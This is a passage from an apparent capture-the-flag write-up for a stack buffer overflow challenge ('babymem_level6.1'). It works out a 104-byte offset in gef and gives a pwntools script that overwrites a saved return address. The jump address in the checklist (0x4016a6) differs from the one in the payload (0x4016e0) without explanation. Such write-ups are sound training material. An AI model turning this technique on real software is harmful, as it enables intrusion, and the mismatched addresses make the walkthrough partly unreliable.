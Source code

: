 We now have the information we need:

* [x] Location of buffer: `0x7ffdf99af5b0`.
* [x] Location of stored return address: `0x7ffdf99af618`.
* [x] Address to jump to: `0x00000000004016a6`.

Let's calculate the padding required.

```
gef➤  p/d 0x7ffdf99af618 - 0x7ffdf99af5b0
$3 = 104
```

We can now create our payload.

```python
from pwn import *

padding = b'A' * 104
payload = padding + p64(0x00000000004016e0)

p = process('/challenge/babymem_level6.1')
p.recvuntil('size:')
p.sendline('500')

p.recvuntil('bytes)!')
p.send(payload)
p.interactive()
```
